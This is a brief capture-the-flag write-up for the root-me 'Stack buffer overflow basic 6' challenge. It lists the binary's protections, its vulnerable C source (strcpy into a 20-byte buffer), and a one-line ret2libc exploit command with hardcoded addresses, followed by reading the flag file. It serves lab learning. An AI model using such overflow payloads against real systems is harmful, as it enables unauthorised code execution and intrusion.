 # ELF x86: Stack buffer overflow basic 6

[root-me challenge](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-6): 

Environment configuration:

```text
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes  
```

Source code:

```text
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
 
int main (int argc, char ** argv){
    char message[20];
 
    if (argc != 2){
        printf ("Usage: %s <message>\n", argv[0]);
        return -1;
    }
 
    setreuid(geteuid(), geteuid());
    strcpy (message, argv[1]);
    printf ("Your message: %s\n", message);
    return 0;
}
```
----

```text
app-systeme-ch33@challenge02:~$ ./ch33 `python -c "print 'A'*32 + '\x10\x33\xe6\xb7' + 'DDDD' + '\x4c\x5d\xf8\xb7'"`
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�3��DDDDL]��
```

```text
$ cat .passwd
```

## Resources

* [François Boisson : Buffer Overflow ou explication de "une faille de type bufferoverflow"](https://www.youtube.com/watch?v=u-OZQkv2ebw)
* [Linux exploit development part 3 - ret2libc](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%203%20Linux%20exploit%20development%20part%203%20-%20ret2libc.pdf)
